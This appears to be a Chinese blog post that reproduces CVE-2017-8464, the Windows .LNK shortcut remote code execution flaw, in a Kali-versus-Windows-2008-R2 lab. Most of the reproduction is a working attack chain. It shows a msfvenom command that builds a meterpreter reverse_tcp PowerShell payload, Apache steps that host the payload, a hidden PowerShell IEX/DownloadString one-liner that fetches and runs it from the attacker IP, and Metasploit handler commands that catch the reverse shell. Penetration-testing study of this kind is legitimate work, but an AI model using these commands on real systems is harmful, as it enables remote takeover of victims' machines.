




# CVE-2017-8464 远程命令执行漏洞（震网漏洞）复现 - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/7025918.html`](https://www.cnblogs.com/backlion/p/7025918.html)

### 前言

2017 年 6 月 13 日，微软官方发布编号为 CVE-2017-8464 的漏洞公告，官方介绍 Windows 系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过 U 盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

### 漏洞描述

攻击者可以向用户呈现包含恶意的.LNK 文件和相关联的恶意二进制文件的可移动驱动器或远程共享。 当用户在 Windows 资源管理器或解析.LNK 文件的任何其他应用程序中打开此驱动器（或远程共享）时，恶意二进制程序将在目标系统上执行攻击者选择的代码，成功利用此漏洞的攻击者可以获得与本地用户相同的用户权限。
注释:.LNK 是 windows 系统内应用程序快捷方式文件的文件类型后缀名。
漏洞利用条件和方式: 

远程利用
漏洞影响范围: 

*   Microsoft Windows 10 Version 1607 for 32-bit Systems
*   Microsoft Windows 10 Version 1607 for x64-based Systems
*   Microsoft Windows 10 for 32-bit Systems
*   Microsoft Windows 10 for x64-based Systems
*   Microsoft Windows 10 version 1511 for 32-bit Systems
*   Microsoft Windows 10 version 1511 for x64-based Systems
*   Microsoft Windows 10 version 1703 for 32-bit Systems
*   Microsoft Windows 10 version 1703 for x64-based Systems
*   Microsoft Windows 7 for 32-bit Systems SP1
*   Microsoft Windows 7 for x64-based Systems SP1
*   Microsoft Windows 8.1 for 32-bit Systems
*   Microsoft Windows 8.1 for x64-based Systems
*   Microsoft Windows RT 8.1

服务器系统

*   Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
*   Microsoft Windows Server 2008 R2 for x64-based Systems SP1
*   Microsoft Windows Server 2008 for 32-bit Systems SP2
*   Microsoft Windows Server 2008 for Itanium-based Systems SP2
*   Microsoft Windows Server 2008 for x64-based Systems SP2
*   Microsoft Windows Server 2012
*   Microsoft Windows Server 2012 R2
*   Microsoft Windows Server 2016

### 漏洞复现:

**利用原理**：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒。

**环境搭建**：

攻击机：kali  ip：10.0.0.140

目标靶机：win2008r2x64 ip:192.168.99.104

1.kali 下生成一个反弹的 ps1 的 shell:

```
msfvenom  -p   windows/x64/meterpreter/reverse_tcp  lhost=10.0.0.140   lport=5555  -f  psh-reflection>/opt/search.ps1
```


2.切换到 opt 目录，然后查看到已生成了 search.ps1 的 powershell 后门

```
cd /opt

ls
```

 

3.将生成的 search.ps1 拷贝到/var/www/html 目录下

```
mv  search.ps1  /var/www/html

ls
```

 

4.启动 apache 服务

```
service apache2 start
```


5.访问 web 下的 search.ps1，可以直接访问：

 

6.在靶机上创建一个 powershell 远程快捷：

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.140/search.ps1');test.ps1"
```



7.名称为:powershell.exe

 

8.kali 下创建监听反弹，并且可以看到成功反弹出靶机的 shell:

```
use exploit/multi/handler set payload windows/x64/meterpreter/reverse_tcp

show options set LHOST 10.0.0.140

set lport  5555 exploit
```




 